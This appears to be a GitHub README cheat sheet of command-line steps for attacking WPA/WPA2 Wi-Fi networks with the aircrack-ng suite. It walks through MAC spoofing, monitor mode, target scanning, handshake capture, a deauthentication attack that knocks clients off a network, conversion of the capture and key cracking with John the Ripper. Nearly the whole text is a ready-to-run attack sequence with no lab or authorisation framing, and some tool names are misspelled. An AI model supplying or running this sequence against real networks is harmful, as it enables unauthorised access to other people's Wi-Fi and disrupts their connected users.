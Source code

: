 # Wifi Hacking Quick Commands `WPA/WAP2`
Kill Network Manager
```
airmon-ng check kill
```
Changing MAC Address
```
ifconfig wlan1 down
ifconfig wlan1 hw ether 00:11:22:33:44:55
ifconfig wlan1 up
```
Enable Monitor Mode
```
ifconfig wlan1 down
airmon-ng start wlan1
ifconfig wlan1 up
```
<br/>

## WPA/WPA2 Key Cracking
Scan Network
```
airodump-ng --band abg wlan1
```
Scan Taget Network
```
airodump-ng --bssid {} --channel {} wlan1
```
Capture `WPA Handshake`
```
airodump-ng --bssid {} --channel {} --write {} wlan1
```
De-authentication Attack
```
aireplay-ng --deauth 5 -a {} -c {} wlan1
```
`.cap` ===}> `.hccap` 
```
aircrack-ng {} -J {extension_name_not_required}
```
`.hccap` ===}> `.txt` 
```
hccpa2john {} > {}
```
Crack the Key using `John-the-riper` tool
```
john {}
```
---
---
---
Disable Monitor Mode
```
ifconfig wlan1 down
airmon-ng stop wlan1
ifconfig wlan1 up
```
Restart Network Manager
```
systemctl restart NetworkManager
```

# =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)